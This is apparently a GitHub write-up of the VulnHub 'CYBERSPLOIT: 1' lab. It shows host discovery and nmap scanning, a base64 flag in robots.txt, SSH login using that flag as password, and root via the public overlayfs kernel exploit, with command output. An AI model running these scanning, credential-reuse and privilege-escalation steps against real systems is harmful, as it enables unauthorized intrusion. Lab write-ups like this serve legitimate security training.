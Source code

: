 # CYBERSPLOIT: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.134	00:0c:29:95:0c:5f	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The ip address is `192.168.127.134`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -sT -sV -sC -p- -oN nmap.out 192.168.127.134

Nmap scan report for www.convert.me (192.168.127.134)
Host is up (0.00037s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
MAC Address: 00:0C:29:95:0C:5F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

check web page and see page source :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/53ac75f8-1570-4c3c-b7d0-e99ace8118e4)


we have username `itsskv`, now we check for `robots.txt` and we find a base64 string, let's decode:

```bash
root@kali: echo -n 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 -d
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

i tried enumerating different things and i found nothing, then tried to brute force the SSH service with `rockyou.txt` and it didn not work

### 3.Gaining Shell

Then i used flag1 ( `cybersploit{youtube.com/c/cybersploit}` ) as password and yes i connected to machine :

```bash
ssh itsskv@192.168.127.134
itsskv@192.168.127.134's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.
```

### 4.Privilege Escalation

Check os version and kernel :

```bash
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux

itsskv@cybersploit-CTF:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
NAME="Ubuntu"
VERSION="12.04.5 LTS, Precise Pangolin"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu precise (12.04.5 LTS)"
VERSION_ID="12.04"
```

search for an exploit online and you will find `'overlayfs' Local Privilege Escalation`, upload it on the server and compile it :

```bash
itsskv@cybersploit-CTF:/tmp$ ./a.out 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library

# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)

# cd /root

# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```

This is how you can get root on this machine :)






